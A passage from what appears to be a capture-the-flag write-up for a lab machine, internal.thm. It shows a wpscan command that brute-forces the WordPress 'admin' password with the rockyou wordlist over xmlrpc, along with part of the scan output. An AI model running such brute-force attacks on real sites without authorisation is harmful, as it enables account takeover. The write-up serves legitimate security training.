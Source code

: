 To be honest i first used `wpscan` to check for themes or installed plugins to check if some of them were outdated but wasn't really helpful so i tried a brute force attack with `rockyou` knowing that `xmlrpc` was enabled. Checking through the Wordpress i found that the admin user was called admin, yeah original, so we can just specify this as the username we want the password from:

```
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://internal.thm/blog/ --passwords rockyou.txt --usernames admin
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [internal.thm]
[+] Started: Fri May 14 13:53:36 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
```
